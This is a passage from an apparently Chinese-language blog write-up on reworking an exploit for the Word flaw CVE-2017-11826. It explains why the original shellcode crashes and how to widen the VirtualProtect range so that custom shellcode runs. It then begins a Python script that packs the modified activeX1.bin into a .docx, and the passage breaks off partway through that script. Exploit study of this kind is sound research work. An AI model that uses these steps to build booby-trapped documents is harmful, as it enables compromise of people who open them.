 执行后会跳转到`0x08888f70`执行shellcode：

![image-20210804104652987](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/Picture/image-20210804104652987.png)

然而VirtualProtect的修改的内存范围只有`0x08888c90 - 0x08888e91`，而shellcode却位于`0x08888f70`，因此会触发c0000005访问异常，shellcode执行失败：

![image-20210804105857160](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/Picture/image-20210804105857160.png)

### 利用改造

activeX1.bin文件中布局如下：

![image-20210804115244951](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/Picture/image-20210804115244951.png)

由于原本VirtualProtect修改的范围为0x201不够，因此修改为0x1000确保能够覆盖shellcode，随后将shellcode替换为自己的shellcode即可。

将修改好的activeX1.bin文件替换到rtfobj.py提取出来进行堆喷的文档中，并修改为.docx，脚本参考[Exploiting Word: CVE-2017-11826](https://www.tarlogic.com/blog/exploiting-word-cve-2017-11826/)一文，替换脚本如下：

```python
import os
import shutil
import zipfile

template_path = ""
final_docx_name = ""
activeX_bin_path = ""

def pack_file_to_open_xml_docx(template_path, final_docx_name, activeX_bin_path): 
    if not os.path.exists(template_path) or not os.path.exists(activeX_bin_path):
        print("Template docx file or activeX.bin file not exist.")
        return

    with open(activeX_bin_path, "rb") as f_: 
        object_bin_data = f_.read()

```